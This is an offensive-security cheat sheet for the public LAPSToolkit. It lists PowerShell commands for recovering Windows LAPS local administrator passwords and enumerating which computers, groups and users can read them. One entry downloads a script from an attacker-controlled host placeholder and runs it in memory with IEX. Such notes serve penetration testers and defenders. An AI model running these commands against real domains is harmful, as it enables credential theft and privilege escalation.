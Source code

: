 # LAPS

% LAPS, passwords

## laps toolkit
#platform/windows  #target/remote  #cat/POSTEXPLOIT/CREDS_RECOVER 

https://github.com/leoloobeek/LAPSToolkit

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/LAPSToolkit.ps1') | IEX; Import-Module .\LAPSToolkit.ps1
```

## laps toolkit - Get laps computer
#platform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Get-LAPSComputers
```

## laps toolkit - find LAPS Delegated Groups
#platform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Find-LAPSDelegatedGroups
```

## laps toolkit - Find users with Extended rights
#platform/windows  #target/remote  #cat/RECON 
```powershell
Import-Module .\LAPSToolkit.ps1; Find-AdmPwdExtendedRights
```